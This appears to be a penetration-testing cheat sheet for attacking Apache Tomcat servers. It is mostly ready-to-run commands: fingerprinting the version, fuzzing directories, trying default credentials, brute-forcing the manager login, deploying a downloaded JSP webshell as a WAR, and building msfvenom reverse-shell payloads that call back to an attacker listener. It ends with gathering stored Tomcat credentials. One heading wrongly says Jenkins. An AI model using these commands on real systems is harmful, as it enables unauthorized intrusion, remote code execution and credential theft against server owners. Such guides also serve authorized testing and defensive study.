 ### **INTRODUCTION**

Apache Tomcat is an open-source Java servlet container and web server, it's a key target due to its role in hosting Java-based web applications, often presenting opportunities to exploit configuration flaws and known vulnerabilities.

### **IDENTIFYING JENKINS VERSION**

1.  Check Version in Documentation page:  
    `curl -s http://[TOMCAT-DOMAIN]:8080/docs/ | grep Tomcat`
2.  Obtain Version from Default Error page:  
    `curl -s http://[TOMCAT-DOMAIN]:8080/nonexistentpage | grep -i tomcat`
3.  Obtain Version Using Nmap:  
    `nmap -p 8080 --script http-server-header [TOMCAT-DOMAIN]`
    

### **DIRECTORY DISCOVERY**

1.  Directory Fuzzing with FFUF:  
    `ffuf -u https://[TOMCAT-DOMAIN]/FUZZ -w /usr/share/seclists/Discovery/Web-Content/tomcat.txt`
2.  Directory Fuzzing with Gobuster:  
    `gobuster dir -u https://[TOMCAT-DOMAIN] -w /usr/share/seclists/Discovery/Web-Content/tomcat.txt`
3.  Directory Fuzzing with Wfuzz:  
    `wfuzz -w /usr/share/seclists/Discovery/Web-Content/tomcat.txt https://[TOMCAT-DOMAIN]/FUZZ`
    

### **DEFAULT CREDENTIALS**

1.  `admin`:`admin`
2.  `tomcat`:`tomcat`
3.  `admin`:
4.  `admin`:`s3cr3t`
5.  `tomcat`:`s3cr3t`
6.  `admin`:`tomcat`

### **BRUTE-FORCE APACHE TOMCAT CREDENTIALS**

1.  Credential Brute-Forcing with Metasploit:  
    `use auxiliary/scanner/http/tomcat_mgr_login`
2.  Credential Brute-Forcing with Hydra:  
    `hydra -L userlist.txt -P passlist.txt [TOMCAT-URL] http-post-form "/manager/html:username=^[USER]^&password=^[PASS]^&Login=Login:Invalid credentials" -t 10`
3.  Credential Brute-Forcing with Nmap:  
    `nmap -p 8080 --script http-brute --script-args http-brute.path=/manager/html,userdb=userlist.txt,passdb=passlist.txt [TOMCAT-URL]`

### **REMOTE CODE EXECUTION (RCE)**

1.  Downloading JSP Shell Using wget:  
    `wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp`
2.  Place cmd.jsp in a apart Directory and Create a WAR File  
    `jar -cvf MyShell.war *`
3.  Upload the MyShell.war to Tomcat using either the manager GUI or a tool like curl:  
    `curl -u admin:password -T MyShell.war http://[TOMCAT-DOMAIN]:8080/manager/text/deploy?path=/myshell`
4.  Access the Shell  
    `http://[TOMCAT-DOMAIN]:8080/myshell/cmd.jsp`
    

### **REVERSE SHELL USING MESTPLOIT**

1.  Create war File  
    `msfvenom -p windows/shell_reverse_tcp LHOST=[IP-ADRESS] LPORT=9002 -f war > MyShell.war`
2.  use jar to list the contents of the war.  
    `jar -ft MyShell.war`
3.  Upload the MyShell.war to Tomcat using either the manager GUI or a tool like curl:  
    `curl -u admin:password -T MyShell.war http://[TOMCAT-DOMAIN]:8080/manager/text/deploy?path=/myshell`
4.  Start Netcat to receive reverse shell  
    `nc -lnvp 9002`
5.  trigger reverse shell using curl  
    `curl http://[TOMCAT-DOMAIN]:8080/myshell/orkmagcvdm.jsp`

### **USING METASPLOIT**

1.  Open Metasploit Framework:  
    `msfconsole`
2.  Select the Tomcat RCE exploit module:  
    `msf> use exploit/multi/http/tomcat_mgr_upload`
3.  Create the WAR file:  
    `msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=80 -f war -o shell.war`
4.  Upload the WAR file to the Tomcat server:  
    `curl --upload-file shell.war -u 'tomcat:password' "https://[TOMCAT-DOMAIN]/manager/text/deploy?path=/shell"`
5.  Starting a Listener on the Local Machine:  
    `sudo nc -lvnp 80`
6.  Accessing the Shell:  
    `https://[TOMCAT-DOMAIN]/shell`

### **POST EXPLOIT**

1.  Find Tomcat credentials in tomcat-users.xml:  
    `find / -name tomcat-users.xml 2>/dev/null`
2.  Gather Tomcat credentials with Metasploit:  
    `msf> use post/multi/gather/tomcat_gather`  
    `msf> use post/windows/gather/enum_tomcat`